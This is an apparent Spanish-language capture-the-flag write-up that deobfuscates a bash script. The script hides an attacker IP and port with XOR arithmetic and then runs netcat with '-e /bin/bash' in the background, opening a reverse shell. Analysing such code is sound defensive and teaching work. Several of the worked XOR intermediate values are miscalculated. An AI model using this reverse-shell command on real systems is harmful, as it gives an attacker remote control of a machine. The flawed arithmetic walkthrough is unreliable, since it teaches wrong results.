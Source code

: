 ```bash
d=$((b))

e="nc"
f="-e"
g=$c
h=$d

$e $g $h $f /bin/bash &>/dev/null &
```

Vemos que esta ofuscado el codigo, gran parte en `hexadecimal`, pero si lo decodificamos veremos el codigo de la siguiente forma:

#### **Paso 1: Comprensión de las variables `v1` y `v2`**

v1=$((0xCAFEBABE ^ 0xAC1100BA)) v2=$((0xDEADBEEF ^ 0x17B4))

* **`v1`**: Se calcula haciendo una operación XOR entre los valores hexadecimales `0xCAFEBABE` y `0xAC1100BA`.
* **`v2`**: Se calcula haciendo una operación XOR entre los valores hexadecimales `0xDEADBEEF` y `0x17B4`.

**Cálculos:**

1.  `v1 = 0xCAFEBABE ^ 0xAC1100BA`

    `v1 = 0xCAFEBABE XOR 0xAC1100BA v1 = 0x669F1B04 (hexadecimal) v1 = 1720030212 (decimal)`
2.  `v2 = 0xDEADBEEF ^ 0x17B4`

    `v2 = 0xDEADBEEF XOR 0x17B4 v2 = 0xDEADA83B (hexadecimal) v2 = 3735921211 (decimal)`

***

#### **Paso 2: Reconstrucción de `a` y `b`**

a=$((v1 ^ 0xCAFEBABE)) b=$((v2 ^ 0xDEADBEEF))

Se realiza otra operación XOR para invertir parcialmente los valores originales.

**Cálculos:**

1.  `a = v1 ^ 0xCAFEBABE`

    `a = 0x669F1B04 XOR 0xCAFEBABE a = 0xAC1100BA (hexadecimal) a = 2886734778 (decimal)`
2.  `b = v2 ^ 0xDEADBEEF`

    `b = 0xDEADA83B XOR 0xDEADBEEF b = 0x000017B4 (hexadecimal) b = 6068 (decimal)`

***

#### **Paso 3: Convertir `a` a una dirección IP**

`c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))`

* Aquí se toma el valor `a` (`2886734778`) y se descompone en 4 bytes para formatearlo como una dirección IP.

